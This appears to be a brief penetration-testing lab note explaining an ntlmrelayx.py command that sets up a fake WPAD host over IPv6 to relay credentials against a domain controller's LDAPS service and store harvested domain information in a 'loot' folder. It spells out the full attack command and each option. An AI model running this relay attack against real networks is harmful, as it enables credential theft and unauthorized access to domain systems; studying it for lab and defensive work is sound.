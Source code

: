 This is to set up a fake wpad so that we get network information
- [WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol) information here
- DNS discovery, more or less
`ntlmrelayx.py -6 -t ldaps://10.20.30.10 -wh fakewpad.marvel.local -l myloot
`
Options:
- `-6`
	- Use IPv6
- `-t`
	- Target machine
	- typically want this to be the DC
- `-wh`
	- fake WPAD
	- `name.domain.local`
- `-l`
	- loot
	- where do you want your information stored?
	- creates a folder named whatever you name it
	- Will have domain information